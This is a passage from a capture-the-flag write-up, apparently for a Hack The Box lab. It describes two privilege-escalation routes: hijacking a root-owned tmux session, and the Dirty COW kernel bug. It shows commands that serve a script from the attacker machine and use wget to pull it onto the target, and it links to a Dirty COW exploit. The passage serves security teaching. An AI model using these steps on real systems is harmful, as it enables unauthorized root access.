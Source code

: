 > tmux is a terminal multiplexer: it enables a number of terminals to be  
> created, accessed, and controlled from a single screen.

It’s essentially a shell that is owned by root! So if we can enter this active tmux session, any command we run there is executed with root privileges. This one I didn’t figure out on my own, I had to use[ ippsec’s help](https://www.youtube.com/watch?v=XYXNvemgJUo).

Alright, so we have two ways of escalating privileges.

**Privilege Escalation \#1: Dirty COW Vulnerability**

To confirm that the target machine is vulnerable to Dirty COW, download the [Linux Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2) script. In the attack machine, start up a server in the directory where the script resides.

```text
python -m SimpleHTTPServer 5555
```

Download the exploit on your target machine.

```text
wget http://10.10.14.6:5555/linux-exploit-suggester-2.pl
```

Run the script.

```text
./linux-exploit-suggester-2.pl
```

We confirm that it is vulnerable to Dirty COW.

![](../images/max/685/1*lfHXPU0KmXSl9DwXO72y0w.png)

I tried several of the exploits on this [page](https://dirtycow.ninja/) but they didn’t work. Therefore, I ended up using this [exploit](https://github.com/FireFart/dirtycow/blob/master/dirty.c).
